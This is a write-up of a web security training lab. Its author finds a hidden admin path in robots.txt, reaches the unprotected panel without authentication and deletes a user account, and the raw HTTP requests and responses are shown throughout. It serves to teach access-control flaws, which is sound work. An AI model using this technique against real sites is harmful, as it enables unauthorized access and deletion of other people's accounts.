 ## Lab: Unprotected admin functionality

This lab has an unprotected admin panel.

Solve the lab by deleting the user `carlos`.

## Solution:
We enter the site and sends the request to repeater and first action is to request robots.txt.
Request:
```http
GET /robots.txt HTTP/2
Host: 0ab5004c039c609481a32f0f00210040.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```
Response:
```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
Set-Cookie: session=1Upan7uS63a4DAqTMfwhu59vMYz4PDqE; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 45

User-agent: *
Disallow: /administrator-panel

```

Here we find the ```/administrator-panel``` and send a request there.
Request:
```http
GET /administrator-panel HTTP/2
Host: 0ab5004c039c609481a32f0f00210040.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```
Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=k2OK2lD45dR42kb5XpanNo70p8NRJxFm; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 3034

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Unprotected admin functionality</title>
    </head>
**********SNIP**********
                    <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/administrator-panel/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/administrator-panel/delete?username=carlos">Delete</a>
                        </div>
                    </section>
                    <br>
                    <hr>
                </div>
            </section>
**********SNIP**********
</html>
```

In the html snippet we find the a tag with a href attribute pointing to /delete with a query string pointing to a username to delete.

We make a request to the a tag.
```http
HTTP/2 302 Found
Location: /administrator-panel
Set-Cookie: session=6QC0cViVhZZlzgl0x73AoKJaAKg7k5tI; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
We get a 302 which redirects us back to the admin panel with the message  
![](./img/Deleted_User_Successfully.png)